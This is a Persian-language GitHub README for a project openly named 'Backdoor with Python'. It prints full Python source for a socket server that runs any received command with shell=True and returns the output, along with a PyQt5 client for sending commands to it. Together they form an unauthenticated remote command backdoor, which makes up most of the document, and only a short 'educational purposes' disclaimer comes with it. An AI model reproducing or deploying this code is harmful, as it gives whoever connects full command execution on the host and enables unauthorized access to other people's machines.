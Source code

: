 ![OIG3 (2)](https://github.com/msade6h/backdoor-with-python/assets/94873023/e18cba33-fcc3-4647-85da-622ac67794be)


---

# بک دور با پایتون

این پروژه شامل دو قسمت اصلی است: یک سرور که برای اتصال‌های ورودی گوش می‌دهد و دستورات دریافتی را اجرا می‌کند، و یک کلاینت با رابط کاربری PyQt5 که به سرور متصل شده و دستورات را برای اجرا ارسال می‌کند. همچنین کلاینت خروجی دستورات اجرا شده را نمایش می‌دهد.

## امکانات

- اجرای دستورات از راه دور از طریق یک رابط کاربری ساده و کاربرپسند با PyQt5
- نمایش لحظه‌ای خروجی دستورات در برنامه کلاینت
- رابط کاربری آسان برای استفاده با ورودی متن برای دستورات و ناحیه نمایش برای نتایج
- سرور به درخواست‌های چندین کلاینت گوش می‌دهد و آن‌ها را مدیریت می‌کند

## نصب

### پیش نیازها

- Python 3.x
- PyQt5
- تنظیمات شبکه‌ای که ارتباط بین کلاینت و سرور را فراهم کند

### نصب PyQt5

شما می‌توانید PyQt5 را با استفاده از pip نصب کنید:

```bash
pip install PyQt5
```

## استفاده

### اجرای سرور

سرور به اتصال‌های ورودی بر روی هاست و پورت مشخص گوش می‌دهد. دستورات دریافتی را اجرا کرده و خروجی را به کلاینت ارسال می‌کند.

برای اجرای سرور، از دستور زیر استفاده کنید:

```bash
python server.py
```

**کد سرور:**

```python
import subprocess
import socket

def main():
    host = '192.168.0.4'
    port = 999
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((host, port))
    s.listen(1)
    print(f"Listening on port {port}...")
    while True:
        conn, addr = s.accept()
        print(f"Connected to client: {addr[0]}:{addr[1]}")
        
        while True:
            try:
                command = conn.recv(1024).decode().strip()
                if not command:
                    break

                proc = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
                output, error = proc.communicate()

                conn.sendall(output)
                conn.sendall(error)
            except Exception as e:
                conn.sendall(str(e).encode())

        conn.close()

if __name__ == "__main__":
    main()
```

### اجرای کلاینت

کلاینت به سرور متصل شده و یک رابط کاربری گرافیکی برای ارسال دستورات و نمایش نتایج ارائه می‌دهد.

برای اجرای کلاینت، از دستور زیر استفاده کنید:

```bash
python client.py
```

**کد کلاینت:**

```python
import sys
from PyQt5.QtWidgets import QApplication, QWidget, QVBoxLayout, QLineEdit, QPushButton, QTextEdit, QMessageBox
from PyQt5.QtCore import QThread, pyqtSignal
import socket

class ClientThread(QThread):
    output_signal = pyqtSignal(str)

    def __init__(self, host, port, command_input, parent=None):
        super().__init__(parent)
        self.host = host
        self.port = port
        self.command_input = command_input

    def run(self):
        self.conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.conn.connect((self.host, self.port))
        self.output_signal.emit("vasl shod !\n")
        
        while True:
            command = self.command_input.text()
            self.conn.send(command.encode())
            output_data = self.conn.recv(1024).decode()
            self.output_signal.emit(output_data)

class RemoteCommandExecutor(QWidget):
    def __init__(self):
        super().__init__()
        self.init_ui()

    def init_ui(self):
        self.setWindowTitle("Remote Command Executor")

        layout = QVBoxLayout()

        self.output_display = QTextEdit()
        self.output_display.setReadOnly(True)
        layout.addWidget(self.output_display)

        self.command_input = QLineEdit()
        layout.addWidget(self.command_input)

        self.send_button = QPushButton("Send Command")
        self.send_button.clicked.connect(self.send_command)
        layout.addWidget(self.send_button)

        self.setLayout(layout)

        self.host = '192.168.0.4'
        self.port = 999
        self.client_thread = ClientThread(self.host, self.port, self.command_input)
        self.client_thread.output_signal.connect(self.update_output)
        self.client_thread.start()

    def send_command(self):
        command = self.command_input.text()
        self.client_thread.conn.send(command.encode())
        self.command_input.clear()

    def update_output(self, output):
        self.output_display.append(output)

if __name__ == '__main__':
    app = QApplication(sys.argv)
    window = RemoteCommandExecutor()
    window.show()
    sys.exit(app.exec_())
```

## تصاویر
![1717540374372](https://github.com/msade6h/backdoor-with-python/assets/94873023/37c3e9e4-a3cd-489d-a4b7-6680fae4cf78)



*تصویری از رابط کاربری کلاینت برای اجرای دستورات از راه دور.*

## مشارکت

1. ریپازیتوری را فورک کنید.
2. یک شاخه جدید ایجاد کنید (`git checkout -b feature-branch`).
3. تغییرات خود را کامیت کنید (`git commit -am 'Add new feature'`).
4. به شاخه خود پوش کنید (`git push origin feature-branch`).
5. یک Pull Request جدید ایجاد کنید.

## مجوز

این پروژه تحت مجوز MIT منتشر شده است - برای جزئیات بیشتر فایل [LICENSE](LICENSE) را ببینید.

## اعلان

این پروژه فقط برای مقاصد آموزشی است. لطفاً از آن به صورت مسئولانه و اخلاقی استفاده کنید.

---

این نمونه README شامل تمام جزئیات لازم برای توضیح پروژه شما، نصب و اجرای آن و همچنین برخی جزئیات اضافی است که ممکن است برای کاربران مفید باشد. شما می‌توانید این فایل را به دلخواه خود تغییر داده و سفارشی کنید.
